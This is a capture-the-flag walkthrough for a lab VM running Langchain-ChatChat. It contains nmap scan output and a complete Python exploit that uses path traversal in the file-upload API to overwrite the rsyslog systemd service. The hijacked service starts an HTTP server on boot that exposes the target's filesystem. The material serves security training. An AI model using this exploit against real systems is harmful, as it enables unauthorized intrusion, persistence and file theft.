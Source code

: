 ## ChainWalk Walkthrough

### Setup

From your **attacker machine**, navigate to the `walkthrough` directory and ensure you have the **target VM's IP address**.
### Enumeration
By default chatchat runs on port 8501, with the API service running on 7861.
```
▶ nmap -Pn MACHINE_IP -sV -p 8501,7861,1337,22 -vv
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-03 14:19 IST
NSE: Loaded 45 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 14:19
Completed Parallel DNS resolution of 1 host. at 14:19, 0.07s elapsed
Initiating Connect Scan at 14:19
Scanning MACHINE_IP [4 ports]
Discovered open port 8501/tcp on MACHINE_IP
Discovered open port 1337/tcp on MACHINE_IP
Discovered open port 7861/tcp on MACHINE_IP
Completed Connect Scan at 14:19, 1.20s elapsed (4 total ports)
Initiating Service scan at 14:19
Scanning 3 services on MACHINE_IP
Completed Service scan at 14:20, 58.80s elapsed (3 services on 1 host)
NSE: Script scanning MACHINE_IP
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 14:20
Completed NSE at 14:20, 0.02s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 14:20
Completed NSE at 14:20, 1.05s elapsed
Nmap scan report for MACHINE_IP
Host is up, received user-set (0.00035s latency).
Scanned at 2025-07-03 14:19:33 IST for 61s

PORT     STATE    SERVICE REASON      VERSION
22/tcp   filtered ssh     no-response
1337/tcp open     http    syn-ack     SimpleHTTPServer 0.6 (Python 3.10.12)
7861/tcp open     unknown syn-ack
8501/tcp open     http    syn-ack     Tornado httpd 6.5.1
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port7861-TCP:V=7.80%I=7%D=7/3%Time=68664424%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,76,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\nInvalid\x20HT
SF:TP\x20request\x20received\.")%r(GetRequest,90,"HTTP/1\.1\x20307\x20Temp
SF:orary\x20Redirect\r\ndate:\x20Thu,\x2003\x20Jul\x202025\x2008:49:40\x20
SF:GMT\r\nserver:\x20uvicorn\r\ncontent-length:\x200\r\nlocation:\x20/docs
SF:\r\nConnection:\x20close\r\n\r\n")%r(HTTPOptions,CB,"HTTP/1\.1\x20405\x
SF:20Method\x20Not\x20Allowed\r\ndate:\x20Thu,\x2003\x20Jul\x202025\x2008:
SF:49:40\x20GMT\r\nserver:\x20uvicorn\r\nallow:\x20GET\r\ncontent-length:\
SF:x2031\r\ncontent-type:\x20application/json\r\nConnection:\x20close\r\n\
SF:r\n{\"detail\":\"Method\x20Not\x20Allowed\"}")%r(RTSPRequest,76,"HTTP/1
SF:\.1\x20400\x20Bad\x20Request\r\ncontent-type:\x20text/plain;\x20charset
SF:=utf-8\r\nConnection:\x20close\r\n\r\nInvalid\x20HTTP\x20request\x20rec
SF:eived\.")%r(DNSVersionBindReqTCP,76,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\nInvalid\x20HTTP\x20request\x20received\.")%r(DNSStatusRequest
SF:TCP,76,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\nInvalid\x20HTTP\x20
SF:request\x20received\.")%r(SSLSessionReq,76,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\nConnection:
SF:\x20close\r\n\r\nInvalid\x20HTTP\x20request\x20re
ceived\.")%r(TerminalS
SF:erverCookie,76,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\nInvalid\x20
SF:HTTP\x20request\x20received\.")%r(TLSSessionReq,76,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\nInvalid\x20HTTP\x20request\x20received\.")%r(K
SF:erberos,76,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\nInvalid\x20HTTP
SF:\x20request\x20received\.")%r(SMBProgNeg,76,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\nInvalid\x20HTTP\x20request\x20received\.");

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.49 seconds
```
Screenshot for 8501 web UI
![image](https://github.com/user-attachments/assets/3a4622f7-3265-48f4-9344-c4fb3be01d57)

Screenshot for API docs
![image](https://github.com/user-attachments/assets/f780373b-fb0e-4c94-a22c-e32b104333ee)

### Exploit Logic

`exploit.py`:

```python
import requests

url = "http://127.0.0.1:7861/v1/files?purpose=assistants"

service_path = "../../../../../../../../../../etc/systemd/system/rsyslog.service"

service_content = """[Unit]
Description=Evil Python HTTP Server
After=network.target

[Service]
Type=simple
ExecStart=/usr/bin/python3 -m http.server 1337
ExecStartPost=/bin/echo "HTTP server running on port 1337"
Restart=always

[Install]
WantedBy=multi-user.target
"""

files = {
    "file": (service_path, service_content, "text/plain")
}
r = requests.post(url, files=files)
print("[+] rsyslog.service hijacked and uploaded:", r.status_code)
```

This exploit targets a **vulnerable file upload endpoint** exposed by Langchain-ChatChat on port `7861`. Specifically:

* The endpoint `/v1/files?purpose=assistants` is vulnerable to **path traversal** (CVE-2025-6855).
* By crafting a filename with `../../../../../`, the script **escapes the upload directory** and writes a file to `/etc/systemd/system/rsyslog.service`.
* Instead of the legitimate system logging service, the overwritten `rsyslog.service` starts a **Python HTTP server** on port `1337` each time the system boots.

Because the VM has no login access, this approach works by **modifying the system startup behavior**. After reboot, the Python server runs automatically — no user login is required.

Once running, this server serves the filesystem from the root directory, giving remote access to files.

### Usage

1. Run the exploit from your attacker machine:

   ```bash
   python3 exploit.py
   ```

2. If successful, you’ll see:

   ```
   [+] rsyslog.service hijacked and uploaded: 200
   ```

3. Now, **reboot the VM** (power it off and turn it back on). No need to log in.


### Step 5: Access the Filesystem

Once the VM restarts, visit the following from your attacker machine:

```
http://<TARGET_VM_IP>:1337
```

You will see a **directory listing of the target machine’s filesystem**, served via Python’s built-in HTTP server.
![image](https://github.com/user-attachments/assets/1bc83065-ba0e-4f28-bbbc-e22f1553beff)

---

### Step 6: Capture the Flag

Browse to the following path in the web interface:

```
home/vboxuser/chainwalk/build/flag_{CHAINWALK}.txt
```

Download or view the file to capture the flag.

---
